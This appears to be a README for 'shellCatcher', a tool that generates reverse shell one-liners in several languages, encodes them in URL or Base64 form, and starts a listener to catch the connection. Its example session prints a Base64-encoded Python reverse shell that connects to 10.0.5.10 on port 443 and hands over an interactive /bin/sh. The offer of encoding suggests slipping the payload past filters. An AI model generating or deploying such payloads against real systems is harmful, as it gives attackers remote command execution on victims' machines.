 shellCatcher
============

Small tool that spits out a reverse shell string in different languages, and spins up a listener that waits for its connection


example usage
============

Welcome to shellCatcher!
Please select a language to use from the list below:

[0] Bash
[1] PERL
[2] Python
[3] Netcat
[4] PHP
[5] Ruby
[6] Java
[7] xterm

\> 2

Please insert your IP address and port number
ex: 192.168.0.10:443

\> 10.0.5.10:443

Select an encoding. If you don't want one, select 0:
[0] None
[1] URL
[2] Base64

\> 2

Reverse Shell String:

cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC41LjEwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=

Spawning the listener on port 443

Waiting for connection...
